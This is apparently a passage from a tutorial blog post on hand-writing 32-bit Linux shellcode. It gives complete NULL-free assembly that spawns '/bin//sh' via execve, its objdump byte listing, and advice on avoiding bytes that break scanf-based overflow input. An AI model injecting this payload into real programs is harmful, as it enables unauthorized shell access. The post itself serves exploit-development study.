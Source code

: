Then again, we’ll have to remove all the null bytes and the references to variables in the data section. Also there’s the 0x0b byte (ASCII for vertical tab) which is interpreted as a separator by scanf (with these functions, it is better to avoid 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x1A and 0x20). Anyway, I decided to get rid of the references to the string in a funny way, this time, just to learn a new technique. The string “/bin//sh” actually has the same effect of “/bin/sh” and this is perfectly testable in a Linux console. Why doing this? Because the length “/bin//sh” is a multiple of 4 and we can put this string (in reversed form) in the stack by using push instructions and, then, retrieving the address through the ESP register. I know this is a little bit confusing, but probably seeing the code would be more clear:  
``` asm
 global _start

_start:
	sub     esp, 0x7F

	xor     eax, eax       ; EAX = 0

	push    eax            ; argv[1] = 0
	push    0x68732f2f     ; "hs//"
	push    0x6e69622f     ; "nib/"
        mov     ebx, esp       ; address of the pathname

	push    eax
        mov     edx, esp       ; NULL envp

	push    ebx
        mov     ecx, esp       ; pointer to the argv vector

	add     al, 5
	add     al, 6          ; EAX = 11

        int     0x80           ; execute execve

        mov     al, 1
        xor     ebx, ebx
        int     0x80
```
So, the shellcode is NULL-free and doesn’t have references to anything outside the text section. Why the SUB instruction at the beginning? Well, it’s more for security reasons: you should not forget that **the shellcode goes into the stack and we’re executing a lot of PUSH instructions here**. This means that **one of these PUSH instructions might overwrite the shellcode itself** (believe me, it happens). Anyway, the final result can be checked with objdump, again:  
```

 $ objdump -d shellcode -M intel

shellcode:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:       83 ec 7f                sub    esp,0x7f
 8048063:       31 c0                   xor    eax,eax
 8048065:       50                      push   eax
 8048066:       68 2f 2f 73 68          push   0x68732f2f
 804806b:       68 2f 62 69 6e          push   0x6e69622f
 8048070:       89 e3                   mov    ebx,esp
 8048072:       50                      push   eax
 8048073:       89 e2                   mov    edx,esp
 8048075:       53                      push   ebx
 8048076:       89 e1                   mov    ecx,esp
 8048078:       04 05                   add    al,0x5
 804807a:       04 06                   add    al,0x6
```